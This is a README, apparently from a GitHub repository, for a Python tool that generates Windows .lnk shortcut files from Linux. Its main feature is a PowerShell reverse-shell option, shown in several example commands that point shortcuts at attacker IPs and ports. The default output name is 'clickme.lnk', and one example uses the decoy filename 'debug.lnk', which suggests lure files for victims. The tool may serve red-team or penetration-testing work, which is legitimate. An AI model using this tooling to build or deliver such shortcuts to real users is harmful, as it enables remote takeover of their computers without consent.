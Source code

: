 # .lnk File Generator

Generate Windows shortcut files (.lnk) from Linux.

## Usage

### Command line
```bash
python3 lnk_generator.py -r 192.168.1.10 4444 # Reverse Shell
python3 lnk_generator.py -c "ping 8.8.8.8"
python3 lnk_generator.py -c "calc.exe" -o calculator.lnk
```

### Interactive mode
```bash
python3 lnk_generator.py --interactive
```

## Options

| Option | Description |
|--------|-------------|
| `-c, --command` | Command to execute |
| `-r, --reverse IP PORT` | Generate PowerShell reverse shell |
| `-o, --output` | Output filename (default: clickme.lnk) |
| `--type` | Shortcut type: powershell/cmd/custom |
| `--desc` | Shortcut description |
| `-i, --interactive` | Force interactive mode |
| `-v, --verbose` | Verbose output |

## Examples

```bash
# Interactive mode (guided setup)
python3 lnk_generator.py -i
# PowerShell command
python3 lnk_generator.py -c "Get-Process"

# Reverse shell
python3 lnk_generator.py -r 192.168.1.10 4444 # Reverse Shell

# Reverse shell with custom filename
python3 lnk_generator.py -r 10.0.0.1 9001 -o debug.lnk

# CMD command  
python3 lnk_generator.py -c "dir" --type cmd

# Custom executable
python3 lnk_generator.py -c "C:\\Windows\\System32\\calc.exe" --type custom
```

## Requirements

- Python 3.6+
- Linux environment

## Files

- `lnk_generator.py` - Main interface
- `native_lnk_generator.py` - Core generator
- `template.lnk` - Windows template file
